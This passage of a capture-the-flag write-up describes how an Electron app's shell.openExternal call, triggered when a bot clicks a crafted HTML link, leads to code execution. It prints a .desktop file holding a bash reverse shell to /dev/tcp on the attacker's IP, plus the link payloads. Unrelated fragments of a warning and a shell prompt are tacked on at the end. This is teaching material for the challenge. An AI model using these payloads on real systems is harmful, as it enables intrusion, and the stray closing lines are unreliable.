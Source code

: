 ### Exploitation

To wrap everything we found until now:

- Usage of shell.openExternal(url) which can lead to XSS -> RCE
- We can send messages to the admin user
- We can upload messages to the admin user
- Messages mentioning the usage of Selenium scripts

The only exploitation path we can see is we assume that there is a bot that’s either downloading the files or clicking the urls (or maybe both?).

To achieve RCE, we will trick the bot into opening our malicious `.desktop` file which will contain our reverse shell:

```ini
[Desktop Entry]
Exec=bash -c "bash -i >& /dev/tcp/10.10.14.57/443 0>&1"
Type=Application
```

We will trick the user to open our link, which will be passed to `shell.openExternal`:

```html
<a className="an" open href="LINK">test</a>
```

At this point, we don’t know whether the bot will download the script or not. We can try both approachs.

1. The easy way is just to host the file in a localwebserver.

```html
<a className="an" open href="http://ip:port/pwn.desktop">test</a>
```

2. The other way is to hope that downloads the file.
   > Spoilers: the bot also downloads the file u.u

We know from the source that it gets downloaded in `/opt/userland` and we retrieve the random file name with two ways as well.

1. Downloading the file locally using the gui, we need to create a writeable /opt/userland in our local system)
2. Using the Web API to upload the file and the filename will be in the response

In this case our payload will be:

```html
<a className="an" open href="file:///opt/userland/5b208f3cb06c3d4a44afa8c948f9aa35.desktop">test</a>
```

Once we make sure the payload is hosted/downloaded we can send the HTML payload and wait until we get a shell.

![A screenshot that shows that our XSS payload is rendered](/static/images/stack-the-flags-2022/payload-xss-rendered.png)

And we get a shell back!


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname